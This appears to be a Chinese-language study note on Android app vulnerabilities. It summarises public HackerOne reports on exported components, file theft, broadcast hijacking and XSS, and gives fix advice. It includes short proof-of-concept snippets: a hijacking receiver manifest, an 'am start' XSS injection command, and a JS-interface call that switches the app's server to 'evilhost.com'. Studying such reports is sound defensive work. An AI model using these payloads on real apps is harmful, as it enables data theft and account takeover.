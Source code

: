 # 各组件漏洞积累
* 各个组件，存的漏洞类型，这些漏洞的利用可能性有多大，被利用之后分别会产生什么样的效果
* ref 
1.https://www.evernote.com/l/AnGwFD3CIlRM7b8l0pISyUy45zhHdUStPsY/
2.https://developer.android.com/reference/classes

## 源码安全漏洞
* 代码混淆漏洞
* Dex保护漏洞
* so保护漏洞
* 调试设置漏洞

## 组件安全漏洞
* 组件导出漏洞

1.
[IRCCloud Android] Theft of arbitrary files leading to token leakage
https://hackerone.com/reports/288955

IRCCloud 任意文件读取
Nov 15, 2017

漏洞细节：
Activity导出 + directory traversal
向导出组件发送特殊构造的uri(包含.../， ..%2F..%2F) ,可以覆盖任意文件
(国外应用没有热补丁这种东西，因此很难RCE，但是仍然有可能进一步利用）

利用的可能性：
IRC类型，symlink

产生的效果：
任意窃取文件

TODO: 学习 symlink 利用

修复建议：设置exported=false；需要外部调用，添加自定义signature或signatureOrSystem级别的私有权限保护；需要暴露的组件严查输入参数，避免应用出现拒绝服务。

2. [Quora Android] Possible to steal arbitrary files from mobile device
https://hackerone.com/reports/258460
August 31, 2017

漏洞细节
UploadService组件 enabled 且 exported。导致任意第三方软件都可以启用这个组件，导致可以任意文件上传。

3. Harvest 任意文件读取
https://hackerone.com/reports/161710
February 10, 2017

extra1:
使用android.accounts.AccountManager 可防止account take over

extra2:
通过symlinks进行任意文件读取是一个很有效的手段，
而且不需要root。
symlink到sdcard会有一些问题，但是symlink到 /data/data/pwntarget/目录没有问题
nice report.

4. NextCloud应用文件上传广播劫持
https://hackerone.com/reports/167481
March 24, 2017

漏洞细节
poc: 注册一个reciever:
<receiver android:exported="true" android:enabled="true" android:name=".InterceptReceiver">
    <intent-filter android:priority="999"> //这里是接受广播的优先权吧
        <action android:name="FileUploader.UPLOAD_START"/>
        <action android:name="FileUploader.UPLOAD_FINISH"/>
        <action android:name="FileUploader.UPLOADS_ADDED"/>
    </intent-filter>
</receiver>

在manifest中静态注册的receiver将先于应用本身，

5. [IRCCloud Android] Opening arbitrary URLs/XSS in SAMLAuthActivity
https://hackerone.com/reports/283058
November 3, 2017
由于activity export
这不能算是洞吧 ...
但是也有危害，因为人不能看到真实的URL，可以用来钓鱼。

6. Dolphin浏览器未正确处理url scheme
https://github.com/VerSprite/research/blob/master/advisories/VS-2017-002.md
CVE-2017-17553
Dolphin Browser for Android Insecure Intent URI Scheme Parsing Vulnerability

7. Quora 导出组件导致的XSS
xss可以偷cookie，登陆账号，本质上为可以执行任意js代码，那么，就可以访问cookie然后回传。

poc:
  am start -n com.quora.android/com.quora.android.ActionBarContentActivity -e url 'http://test/test' -e html 'XSS<script>alert(123)</script>'
  
可以加载第三方js
可以通过一些定义的js接口做一些事情，例如获取剪切板内容
QuoraAndroid.getClipboardData()
QuoraAndroid.sendMessage(
"{\"messageName\":\"switchInstance\",\"data\":{\"host\":\"evilhost.com\",\"instance_name\":\"evilhost\",\"scheme\":\"https\"}}"
);
change the server address.

extra:
https://labs.mwrinfosecurity.com/blog/webview-addjavascriptinterface-remote-code-execution/

8. Dropbox访问非导出content provider
https://hackerone.com/reports/272044
dropbox的LoginOrNewAcctActivity组件exported，
通过向此组件传送一个intent extra，可以让这个Activity将此intent传递给未exported的content provider组件，
虽然在访问时对className进行了验证，但是没有对传进来的包名进行验证。
因为而可通过x这条链将信息偷出去

extra:
这种手段称为embedded intent?

9. Twitter Fragment injection
April 12, 2015

继承于 PreferenceActivity 的组件，在export为true的时候，它就是vulnerable的。
在kitkat之后google进行了修补，因而高版本Android不受影响 

具体原理如下：
extra:
https://securityintelligence.com/new-vulnerability-android-framework-fragment-injection)/

10. Snapchat Js Injection
October 22, 2015

11. Breaking UC Browser
2019 5 16
https://m.habr.com/en/company/drweb/blog/452076/
这个主要是在讲 Machin code obfuscation。 so相关，似乎现在啃 这个饼太硬了。
#TODO

12. js类漏洞
https://github.com/tunz/js-vuln-db#projectzero

* Activity组件漏洞
	activity绑定browserable与自定义协议
* ActivityManager漏洞


## Service组件漏洞

## Broadcast Receiver组件漏洞
* 权限管理不当
* BroadcastReceiver导出漏洞
* 动态注册广播组件暴露漏洞

## Content Provider组件漏洞
* 读写权限漏洞
* Content Provider中的SQL注入漏洞
* Provider文件目录遍历漏洞

## Intent组件漏洞
* 隐式意图调用漏洞
* 意图协议URL漏洞

## WebView组件漏洞
* Webview明文存储密码风险
* Webview远程代码执行漏洞
* Webview绕过证书校验漏洞
* WebView忽略SSL证书错误

## 数据安全漏洞
* 数据存储漏洞
* 数据加密漏洞
* 数据传输漏洞
* 日志信息漏洞

## 业务逻辑漏洞
* 权限漏洞
* 业务漏洞

# NEW I found
1. CVE-2019-5765: 1-click HackerOne account takeover on all Android devices
https://hackerone.com/reports/563870
2. [Grab Android/iOS] Insecure deeplink leads to sensitive information disclosure
https://hackerone.com/reports/401793
3.[Mail.Ru Android] Typo in permission name allows to write contacts without user knowledge
https://hackerone.com/reports/440749
4.Disclosure of all uploads to Cloudinary via hardcoded api secret in Android app
https://hackerone.com/reports/351555
5.[Zomato Android/iOS] Theft of user session
https://hackerone.com/reports/328486
6.Android - Access of some not exported content providers
https://hackerone.com/reports/272044
7.
